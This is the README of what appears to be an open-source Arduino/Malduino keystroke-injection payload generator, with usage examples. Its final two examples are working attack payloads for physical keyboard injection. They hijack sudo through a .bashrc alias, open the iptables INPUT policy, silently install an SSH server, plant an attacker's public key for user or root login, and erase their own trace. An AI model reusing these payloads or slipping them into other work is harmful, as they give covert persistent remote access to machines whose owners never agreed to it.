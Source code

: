 # Malduino/Arduino Keyboard code generator
Code generator of arduino keyboard proyect's (rubber ducky like)

With this proyect you can generate arduino keyboard code's easier. It's a command line translater of payloads to be typed with keyboard arduino library and also it can type with many languages or type methods, like unicode (linux), windows "alt" codes, etc.

ITS NOT RECOMENDED USE IT TO UPLOAD NOW. You can avoid this with -jc parameter, it can cause overwrite of firmware reset delay and its hard to rewrite this again.

--- 

File explanaition:
-
See at config.py file the path to arduino code for upload (not recomended to use it now).

See payloads.py to view some predefined payloads.

Executers are some decorators of payloads, you can transform the execution of payload to do it in some other way. They are defined in executer.py.

Translaters in translater.py are the last transform of payload typed. There is some ways to type entire payload, they can change between an spanish keyboard, an english keyboard, a linux unicode type mode, a windows alt code typing, etc.

In uploader.py is defined the connection to arduino, how it is find at usb ports, how to upload, and such things.

"reset" files are nothing. Some ways to reset arduinos.


Some examples and payloads:
-

Basic. Use -h for all command description. Use -v to show what the program is doing:
```bash
python3 run.py [-h] [-v] [options]
```

Using predefined payload "firefox":
```bash
python3 run.py -p firefox -tm unicode -v -jc
```

Types a custom payload with -sp. Then translate it to typing mode "unicode" used on linux.
```bash
python3 run.py -sp 'echo gato; firefox algunsitio.com' -tm unicode -v -jc
```

This adds at the end a ssh-pub-key and first a line to the .bashrc with a payload that adds an alias to sudo with:
- a change to iptables input policy setting it to ACCEPT
- a ssh server instalation
- a deletion of payload line in .bashrc
- a execution of original sudo command
```bash
python3 run.py -sp " echo \" alias sudo='sudo iptables -P INPUT ACCEPT ; sudo apt install -qq -y openssh-server &> /dev/null ; grep -v \\\"#estalinea\\\" .bashrc >.tmp;mv .tmp .bashrc ; /usr/bin/sudo' #estalinea\" >> .bashrc ; echo \"ssh-rsa SSH-PUB-KEY-HERE \" >> \$HOME/.ssh/authorized_keys; exit; " -tm unicode -jc -otm ctrlaltt -em hex-bash -dp 0 -dl 0 -ctc -jc
```

Same but for ssh root access:
```bash
python3 run.py -sp " echo \" alias sudo='sudo iptables -P INPUT ACCEPT ; sudo apt install -qq -y openssh-server &> /dev/null ; sudo mkdir -p /root/.ssh; sudo sh -c \\\"echo \\\\\\\"ssh-rsa SSH-PUB-KEY-HERE \\\\\\\" >> /root/.ssh/authorized_keys\\\" ; grep -v \\\"#estalinea\\\" \$HOME/.bashrc >.tmp;mv .tmp .bashrc ; /usr/bin/sudo' #estalinea\" >> .bashrc ; exit; " -tm unicode -jc -otm ctrlaltt -em hex-bash -dp 0 -dl 0 -ctc -jc
```

